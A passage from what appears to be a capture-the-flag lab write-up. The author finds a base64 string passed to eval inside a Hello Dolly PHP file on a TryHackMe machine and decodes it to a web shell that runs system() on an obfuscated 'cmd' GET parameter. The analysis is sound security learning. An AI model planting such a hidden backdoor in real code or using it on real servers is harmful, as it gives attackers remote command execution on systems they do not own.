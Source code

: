 -> At this point, it was still not working. This was when I realized my machine on tryhackme had crashed (no surprise really). So I started a new machine and got to work with the new IP address.

- IP Address: 10.10.133.67

-> This time, it worked! The php file contained a function for lyrics to Hello Dolly but what was interesting was the base64 string paired with an eval function. Eval functions are always nice to see :) 

![](attachments/Pasted%20image%2020250625155324.png)

-> Decoding the base64 string,

```┌──(kali㉿kali)-[/usr/share/exploitdb]
└─$ echo "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }
```

